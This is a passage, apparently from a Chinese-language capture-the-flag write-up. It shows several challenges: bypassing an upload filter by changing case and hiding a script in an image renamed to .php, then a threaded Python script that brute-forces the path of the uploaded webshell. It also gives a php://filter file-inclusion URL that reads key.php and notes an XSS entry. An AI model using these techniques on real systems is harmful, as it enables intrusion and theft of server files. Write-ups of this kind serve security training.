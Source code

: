 后台对上传文件的内容做了些检测，过滤了eval()等危险函数，只需大小写绕过，但不限制后缀，将脚本后后写在正常的图片里，上传修改后缀为php即可。

成功之后使用burpsuite爆破shell,或者使用脚本

```python
import requests
import sys
import queue

Queue =queue.Queue()
import threading
def run():
    while not Queue.empty():
        try:
            path = "http://150.xxx.xxx.164:2082/"+Queue.get()
            print("\r剩余 %d " % Queue.qsize(),end='')
            res = requests.get(path,timeout=5)
            if res.status_code == 200:
                print("SUCESS %s " % path)
                sys.exit()
        except:
            pass
        

def run_t(t):
    thread_list=[]
    for i in range(t):
        t = threading.Thread(target=run)
        thread_list.append(t)
    for t in thread_list:
        t.start()
    for t in thread_list:
        t.join()


file = sys.argv[1]       
with open(file,'r') as f:
    for i in f:
        Queue.put(i.strip())

run_t(100)
```

#### 7.文件包含-2083

这题较为简单，没有任何过滤

`http://150.158.27.164:2083/start/index.php?page=php://filter/read=convert.base64-encode/resource=../key.php`

####  8.XSS-8084

直接留言插入
